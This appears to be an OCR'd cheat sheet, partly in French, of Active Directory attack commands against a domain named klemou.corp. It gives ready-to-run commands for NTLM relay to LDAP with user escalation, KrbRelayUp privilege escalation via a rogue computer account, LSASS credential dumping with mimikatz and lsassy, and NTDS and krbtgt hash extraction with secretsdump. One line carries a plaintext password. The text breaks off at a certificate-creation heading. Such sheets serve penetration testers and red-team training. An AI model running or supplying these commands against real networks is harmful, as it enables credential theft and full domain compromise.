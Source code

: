 ```
ntlmrelayx.py -t "ldaps://dc01.klemou.corp" -smb2support
ntlmrelayx.py -t "ldap://dc01.klemou.corp" -smb2support --escalate-user domainuser
```

## KrbRelayUp

```
.\KrbRelayUp.exe relay -Domain klemou.corp -CreateNewComputerAccount -Computer evil$ -ComputerPassword evil123
.\KrbRelayUp.exe spawn -m rbcd -d klemou.corp -dc DC02.klemou.corp -cn KRBRELAYUP$ -cp evil123
```

## Dump Lsass

### Windows
```
privilege::debug
token::elevate
sekurlsa::logonpasswords
```

### Linux
```
nxc smb mssql.klemou.corp -u crz -p '992e71f059.585a7ffa20' -M lsassy
```

## Dump NTDS

### Windows

```
mimikatz #TODO
```

### Linux

```
secretsdump.py DAuser:password@dc.domain.local -just-dc-user krbtgt
nxc smb dc01.domain.local -u 'DAuser' -p 'password' --ntds --user krbtgt
```

## ADCS

### Info sur ADCS

```
nxc ldap dc.domain.local -u 'user' -p 'password' -M adcs
```

### création de certificats
